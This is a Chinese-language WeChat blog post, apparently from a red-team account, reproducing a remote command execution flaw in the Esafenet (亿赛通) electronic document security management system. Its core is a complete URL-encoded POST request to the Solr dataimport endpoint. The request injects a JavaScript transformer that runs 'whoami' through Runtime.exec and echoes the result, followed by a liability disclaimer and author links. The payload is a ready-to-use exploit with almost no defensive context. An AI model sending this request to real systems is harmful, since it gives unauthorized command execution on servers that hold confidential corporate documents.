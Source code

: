 #  亿赛通电子文档安全管理系统远程命令执行

原创 儒道易行  [ 儒道易行 ](javascript:void\(0\);)

**儒道易行** ![]()

微信号 gh_ad128618f5e9

功能介绍 谢天谢地、不忘祖先、敬偎圣贤

____

___发表于_

收录于合集

#网络安全 303 个

#漏洞分析 104 个

#红队攻防 168 个

#渗透实战 118 个

#漏洞复现 161 个

人这一生，不是看你贫穷和富有，而是看你都做了些啥。

##  **漏洞描述**

亿赛通电子文档安全管理系统存在远程命令执行漏洞，攻击者通过构造特定的请求可执行任意命令

##  **漏洞复现：**

访问url：

构造payload请求

  *   *   *   *   *   * 

    
    
    POST /solr/flow/dataimport?command=full-import&verbose=false&clean=false&commit=false&debug=true&core=tika&name=dataimport&dataConfig=%0A%3CdataConfig%3E%0A%3CdataSource%20name%3D%22streamsrc%22%20type%3D%22ContentStreamDataSource%22%20loggerLevel%3D%22TRACE%22%20%2F%3E%0A%0A%20%20%3Cscript%3E%3C!%5BCDATA%5B%0A%20%20%20%20%20%20%20%20%20%20function%20poc(row)%7B%0A%20var%20bufReader%20%3D%20new%20java.io.BufferedReader(new%20java.io.InputStreamReader(java.lang.Runtime.getRuntime().exec(%22whoami%22).getInputStream()))%3B%0A%0Avar%20result%20%3D%20%5B%5D%3B%0A%0Awhile(true)%20%7B%0Avar%20oneline%20%3D%20bufReader.readLine()%3B%0Aresult.push(%20oneline%20)%3B%0Aif(!oneline)%20break%3B%0A%7D%0A%0Arow.put(%22title%22%2Cresult.join(%22%5Cn%5Cr%22))%3B%0Areturn%20row%3B%0A%0A%7D%0A%0A%5D%5D%3E%3C%2Fscript%3E%0A%0A%3Cdocument%3E%0A%20%20%20%20%3Centity%0A%20%20%20%20%20%20%20%20stream%3D%22true%22%0A%20%20%20%20%20%20%20%20name%3D%22entity1%22%0A%20%20%20%20%20%20%20%20datasource%3D%22streamsrc1%22%0A%20%20%20%20%20%20%20%20processor%3D%22XPathEntityProcessor%22%0A%20%20%20%20%20%20%20%20rootEntity%3D%22true%22%0A%20%20%20%20%20%20%20%20forEach%3D%22%2FRDF%2Fitem%22%0A%20%20%20%20%20%20%20%20transformer%3D%22script%3Apoc%22%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%3Cfield%20column%3D%22title%22%20xpath%3D%22%2FRDF%2Fitem%2Ftitle%22%20%2F%3E%0A%20%20%20%20%3C%2Fentity%3E%0A%3C%2Fdocument%3E%0A%3C%2FdataConfig%3E%0A%20%20%20%20%0A%20%20%20%20%20%20%20%20%20%20%20 HTTP/1.1  
    <?xml version="1.0" encoding="UTF-8"?>        <RDF>        <item/>        </RDF>

漏洞证明：

![]()

文笔生疏，措辞浅薄，望各位大佬不吝赐教，万分感谢。

免责声明：由于传播或利用此文所提供的信息、技术或方法而造成的任何直接或间接的后果及损失，均由使用者本人负责， 文章作者不为此承担任何责任。

转载声明：儒道易行
拥有对此文章的修改和解释权，如欲转载或传播此文章，必须保证此文章的完整性，包括版权声明等全部内容。未经作者允许，不得任意修改或者增减此文章的内容，不得以任何方式将其用于商业目的。

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    CSDN:https://blog.csdn.net/weixin_48899364?type=blog  
    公众号：https://mp.weixin.qq.com/mp/appmsgalbum?__biz=Mzg5NTU2NjA1Mw==&action=getalbum&album_id=1696286248027357190&scene=173&from_msgid=2247485408&from_itemidx=1&count=3&nolastread=1#wechat_redirect  
    博客:https://rdyx0.github.io/  
    先知社区：https://xz.aliyun.com/u/37846  
    SecIN:https://www.sec-in.com/author/3097  
    FreeBuf：https://www.freebuf.com/author/%E5%9B%BD%E6%9C%8D%E6%9C%80%E5%BC%BA%E6%B8%97%E9%80%8F%E6%8E%8C%E6%8E%A7%E8%80%85  
    

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

